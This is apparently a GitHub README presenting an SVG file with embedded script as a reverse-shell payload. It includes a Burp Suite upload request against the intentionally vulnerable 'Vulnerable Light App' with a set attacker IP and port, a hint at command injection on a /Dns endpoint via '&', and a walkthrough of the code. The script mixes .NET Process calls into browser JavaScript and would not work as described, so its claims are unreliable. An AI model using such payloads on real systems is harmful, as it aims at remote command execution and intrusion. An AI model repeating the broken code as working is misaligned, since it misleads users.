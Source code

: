 # SVG Payload:

```
<svg xmlns="http://www.w3.org/2000/svg">
  <script>
    var host = 'Attacker_IP';
    var port = 'Attacker_Port';

    var s = new WebSocket('ws://' + host + ':' + port);
    s.onopen = function() {
      var proc = new Process();
      proc.StartInfo.FileName = 'cmd.exe';
      proc.StartInfo.RedirectStandardInput = true;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.StartInfo.UseShellExecute = false;
      proc.Start();
      var input = proc.StandardInput;
      var output = proc.StandardOutput;

      s.onmessage = function(event) {
        input.WriteLine(event.data);
      };

      setInterval(function() {
        var outputData = output.ReadToEnd();
        s.send(outputData);
      }, 100);
    };
  </script>
</svg>
```
## **Usage**: To use this payload:

- Replace `'Attacker_IP'` and `'Attacker_Port'` with the actual IP address and port of the attacker machine.

Upon opening the SVG file, the victim machine would establish a WebSocket connection to the attacker's server, enabling the attacker to execute commands on the victim's machine remotely.

## Example usage of the payload inside Burpsuite against Vulnerable Light App:
### Endpoint used:
- /Patch: Used to upload .svg files
- /Dns: Perform a DNS query for the Fully Qualified Domain Name (FQDN) passed as a parameter (`UserStr`). (Can be exploited by adding a '&' and executing our payload)

### Burpsuite PATCH request:
```
PATCH /Patch?t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJJZCI6ImFkbWluIiwibmJmIjoxNzE0NjM3MjQ4LCJleHAiOjE3NDYxNzMyNDgsImlhdCI6MTcxNDYzNzI0OH0.0PjIKh8uqvHuxo1D1-JXWaq30JDXvNSfbUfKMcJ9f2o HTTP/1.1
Host: localhost:4000
Connection: keep-alive
Content-Length: 961
sec-ch-ua: "Brave";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY3yVHB1BGhc61AgN
X-Forwarded-For: 10.10.10.256
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-GPC: 1
Accept-Language: fr-FR,fr
Origin: https://localhost:4000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://localhost:4000/swagger/index.html
Accept-Encoding: gzip, deflate, br

------WebKitFormBoundaryY3yVHB1BGhc61AgN
Content-Disposition: form-data; name="file"; filename="pocXSS.svg"
Content-Type: image/svg+xml
  
    var host = '192.168.1.134';
    var port = '4444';

    var s = new WebSocket('ws://' + host + ':' + port);
    s.onopen = function() {
      var proc = new Process();
      proc.StartInfo.FileName = 'cmd.exe';
      proc.StartInfo.RedirectStandardInput = true;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.StartInfo.UseShellExecute = false;
      proc.Start();
      var input = proc.StandardInput;
      var output = proc.StandardOutput;

      s.onmessage = function(event) {
        input.WriteLine(event.data);
      };

      setInterval(function() {
        var outputData = output.ReadToEnd();
        s.send(outputData);
      }, 100);
    };
------WebKitFormBoundaryY3yVHB1BGhc61AgN--
```

## SVG Payload Explanation

This SVG payload is designed to create a reverse shell connection from a victim machine (eg. web-server) to an attacker-controlled server. Below is an explanation of how the payload works:

1. **SVG Declaration**: The payload starts with the XML declaration `xmlns="http://www.w3.org/2000/svg"`, indicating that it's an SVG (Scalable Vector Graphics) file.
    
2. **JavaScript Payload**: The payload contains JavaScript code embedded within a `<script>` element. This JavaScript code performs the following actions:
    
    - **Setting Up Connection Parameters**: It initializes variables `host` and `port` with the attacker's IP address and the port number where the attacker's WebSocket server is listening.
        
    - **WebSocket Connection**: It creates a WebSocket connection (`ws://`) to the attacker's server using the specified host and port. The `onopen` event handler is triggered when the connection is successfully established.
        
    - **Executing Command Shell**: Upon connection establishment, it creates a new process (`cmd.exe` for Windows) on the victim's machine. This process is configured to redirect standard input and output streams to allow interaction with the command shell.
        
    - **Handling Input and Output**: It sets up event handlers to handle incoming messages (`onmessage`) from the WebSocket server and periodically send the output of the command shell (`cmd.exe`) back to the attacker's server. This enables bi-directional communication between the attacker and victim machines.
        
    - **Interval for Output Sending**: To continuously send the command shell's output to the attacker, it sets up an interval function (`setInterval`) that periodically reads the output of the command shell and sends it over the WebSocket connection.
        
3. **Placeholder Values**: The payload includes placeholder values `'Attacker_IP'` and `'Attacker_Port'` for the attacker's IP address and port. These values should be replaced with the actual IP address and port of the attacker's WebSocket server.

